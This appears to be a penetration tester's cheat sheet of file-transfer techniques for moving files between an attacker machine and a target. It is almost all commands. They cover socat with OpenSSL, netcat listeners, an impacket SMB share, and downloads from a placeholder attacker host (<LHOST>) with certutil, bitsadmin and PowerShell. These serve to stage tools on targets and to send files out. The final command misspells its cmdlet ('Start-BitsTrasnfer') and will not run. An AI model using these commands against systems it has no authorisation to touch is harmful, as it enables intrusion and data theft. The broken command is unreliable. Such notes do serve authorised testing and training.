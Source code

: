 ## socat: encrypted file transfer
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
### step #4: on machine receiving the file:
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0 file:file.txt,create
```
## Powershell trasnfer: using .Net WebClient:
```powershell
(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)
```
## file transfer with netcat
### on recieving end
```bash
nc -nlvp 443 > incoming.exe
```
### on sending end
```bash
nc -nv <LHOST> 443 < /path/to/file_to_be_sent.exe
```
## SMB file transfer with impacket's `smbserver.py`
### start server on kali
```bash
smbserver.py <SHARE_NAME> `pwd` -smb2support
```
### copy/move file from share
```shell
xcopy \\<LHOST>\<SHARE_NAME>\<FILE_NAME> c:\windows\temp
```
### copy/move file to share
```shell
xcopy c:\windows\temp\test.txt \\<LHOST>\<SHARE_NAME>\test.txt
```
## using `certutil.exe`
```shell
certutil -f -urlcache HTTP://<LHOST>:<LPORT>/<FILE_NAME> c:\windows\temp\<FILE_NAME>
```
## using bitsadmin
```shell
bitsadmin /transfer myDownloadJob /download /priority high http://<LHOST>:<LPORT>/<FILE> c:\windows\temp\<FILE_NAME>
```
## using powershell `Start-BitsTransfer`
```powershell
Start-BitsTrasnfer -Source "HTTP://<LHOST>:<LPORT>/<FILE_NAME>" -Destination c:\windows\temp\<FILE_NAME>
```